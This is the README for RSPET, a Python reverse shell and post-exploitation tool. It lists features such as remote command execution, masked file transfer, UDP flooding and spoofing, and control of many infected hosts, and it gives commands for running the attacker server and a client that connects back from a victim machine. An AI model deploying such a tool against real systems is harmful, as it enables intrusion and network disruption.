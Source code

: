 # RSPET

![MIT Licence](https://img.shields.io/badge/Licence-MIT_Licence-red.svg?style=plastic)
[![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg?style=plastic)](https://www.python.org/)
![v0.0.6](https://img.shields.io/badge/Release-v0.1.0-orange.svg?style=plastic)
![Maintained](https://img.shields.io/badge/Maintained-Yes-green.svg?style=plastic)
[![Twitter](https://img.shields.io/badge/Twitter-@TheRSPET-blue.svg?style=plastic)](https://twitter.com/theRSPET)

> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE: As of v0.0.3 folder `min` has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.3 and will only get bug and performance related fixes.

Current Version: `v0.1.0`

Follow: [@TheRSPET](https://twitter.com/TheRSPET) on Twitter for updates.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Built-in UDP Spoofing tool[2]
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Modular Code Design to allow easy customization[3]
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[4]

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]UDP Spoofing uses RAW_SOCKETS so in order to utilize it, the client has to run on an OS that supports RAW_SOCKETS (most Unix-Based) and with root privilages. Finally, most of the ISPs have implementations in place that will either drop or re-structure spoofed packets

*[3]See EXPANDING for how you can easily add new functionality and customize RSPET to your needs

*[4]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

## Deployment:

* `RSPET_server.py` or `RSPET_server_min.py` is situated at the attacker's machine and running to accept connections
* `RSPET_client.py` or `RSPET_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
python RSPET_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python RSPET_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in

* [seclist.us](http://seclist.us/rspet-reverse-shell-and-post-exploitation-tool.html)
* [sillycon.org](http://www.sillycon.org/stories/article/github-panagiksrspet-rspet-reverse-shell-and-post-exploitation-tool-is-a-python-based-reverse-shell-equipped-with-functionalities-that-assist-in-a-post-exploitation-scenario)
* [digitalmunition.me](https://www.digitalmunition.me/2016/04/rspet-reverse-shell-post-exploitation-tool/)
* [n0where.net](https://n0where.net/reverse-shell-post-exploitation-tool/)
* [kitploit.com](http://www.kitploit.com/2016/05/rspet-python-reverse-shell-and-post.html)
* [Hakin9 IT Security Magazine](https://www.facebook.com/hakin9mag/posts/1376368245710855)

## Todo

- [x] ~~Fix logic bug where if a dirrect command to Host OS has no output Server displays command not recognised~~
- [ ] Fix logic bug where if a dirrect command's to Host OS execution is perpetual the Server deadlocks
- [x] ~~Add client version and type (min or full) as a property when client connects and at `List_Hosts`~~
- [ ] Add client update mechanism (being worked on)
- [ ] Add UDP Reflection functionality (already in the workings)

## Styleguide

This project is following [Google's Python Styleguide](https://google.github.io/styleguide/pyguide.html) with a minor varitation on the use of whitespaces to align ":" tokens.

## Contribution Opportunities

This project is open for contributors. If you have implemented a new feature, or maybe an improvment to the current code feel free to open a pull request. If you want to sugest a new feature open an issue. Additionally Testers are needed to run a few standard scenarios (and a few of their own maybe) to decrease the chance a bug slips into a new version. Should there be any interest about testing a `beta` folder will be created (where code to be tested will be uploaded) along with a list of scenarios.

## Author

[panagiks](https://twitter.com/panagiks)

## Contributors

* [b3mb4m](https://github.com/b3mb4m) -- Code
* [junzy](https://github.com/junzy) -- Docstings

## License

MIT
